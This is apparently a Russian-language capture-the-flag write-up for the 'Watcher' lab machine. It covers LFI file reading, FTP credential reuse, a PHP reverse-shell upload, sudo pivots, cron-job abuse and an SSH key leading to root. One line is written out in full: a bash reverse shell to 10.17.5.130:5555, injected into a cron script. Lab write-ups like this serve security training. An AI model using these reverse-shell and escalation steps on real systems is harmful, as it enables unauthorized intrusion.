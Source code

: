 # Watcher WriteUp (Medium)✅

Перейдя по ip адресу, мы видим страницу с подставками (?) для посуды

<figure><img src="../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Проверив файл **robots.txt**, мы обнаруживаем 2 файла

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

В файле **flag\_1.txt** находится первый флаг🚩

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Во втором файле находится записка, но мы не можем прочитать её содержимое, просто перейдя в него с помощью адресной строки

<figure><img src="../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

Нажав на картинку на основной странице, в адресной строке появляется html-запрос, используя его, прочитаем содержимое файла **secret\_file\_do\_not\_read.txt**

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

В данной записке находится логин и пароль для подключения по протоколу ftp&#x20;

<figure><img src="../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Используя логин и пароль из записки, подключаемся к машине и скачиваем файл **flag\_2.txt**

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

Выводим содержимое данного файла и получаем второй флаг🚩

<figure><img src="../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Для того, чтобы получить обратную оболочку, нам понадобится эксплуатировать LFI - уязвимость ([подробнее о ней тут](https://github.com/ZHIRspb/Cheatsheet/blob/main/readme/vulnerabilities.md))

Далее нам понадобится **php\_reverse\_shell**. Используя **ftp** соединение, загружаем шелл в директорию **/files**, а затем, подключив слушатель, создаем **html-запрос**, в котором обращаемся к файлу с шеллом, указав полный путь до него&#x20;

<figure><img src="../.gitbook/assets/image (5) (4).png" alt=""><figcaption><p>Отправить данный запрос нужно после подключения слушателя</p></figcaption></figure>

Перейдя в каталог **/var/www/html** мы можем найти папку **more\_secrets\_a9f10a**

<figure><img src="../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

В ней и находится текстовый файл с третьим флагом🚩

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Четвертый флаг находится в директории toby, но от лица www-data у нас нет прав, чтобы его узнать

<figure><img src="../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

С помощью команды `sudo -l` мы выяснили, что от лица пользователя **toby** мы можем вывести содержимое файла, поэтому, используя команду `sudo -u toby /bin/bash` меняем пользователя на **toby** и выводим четвертый флаг🚩

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Записка **note.txt** намекает нам, что в папке **jobs** находится скрипт, который выполняется в определенный период времени (с помощью инструмента **cron**)

<figure><img src="../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Добавив в него строку с **bash\_reverse\_shell'ом** с помощью команды `echo 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1''' >>` [`cow.sh`](https://vk.com/away.php?to=http%3A%2F%2Fcow.sh\&cc\_key=) и подключив слушатель, получаем оболочку уже от лица пользователя **mat**, в директории которого находится пятый флаг🚩

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Проверив, что написано в записке, которая находится в той же директории, мы узнаем, что можем запустить некий **python-скрипт** от лица пользователя **will** без пароля&#x20;

<figure><img src="../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

Этот скрипт берет некоторые данные из второго python-скрипта **cmd.py**

Содержимое файла **will\_script.py** мы изменить не можем, однако, [стабилизировав оболочку](https://github.com/ZHIRspb/Cheatsheet/blob/main/some-cheatsheets/shell-stabilisation.md), с помощью команды `nano cmd.py` мы имеем право добавить в данный скрипт очередной пейлоад, чтобы получить оболочку от лица пользователя **will**&#x20;

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Заранее подключив слушатель, запускаем **will\_script.py** используя команду:

`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1` ("1" нам нужна, потому что что скрипт cmd.py принимает значение 1-3 для правильной работы)&#x20;

И получаем шелл от лица пользователя will, а вместе с ним и шестой флаг 🚩

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Проверив каталог **/opt**, мы можем заметить интересную вкладку **backups**, в которой находится файл **key.b64**

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Само расширение даёт нам понять, что данный ключ закодирован с помощью **base64** кодирования

Вставляем содержимое данного файла в **base64** декодер и получаем  **RSA-ключ** для подключения по протоколу **ssh**

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Далее создаем файл, в который записываем этот ключ, выдаем ему права с помощью команды `chmod 600 file_name` (600 - чтение и запись)

&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

&#x20;Подключаемся по протоколу **ssh** от имени пользователя **root** используя команду&#x20;

`ssh -i file_name root@machine_ip`

И, наконец, получаем последний флаг🚩

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

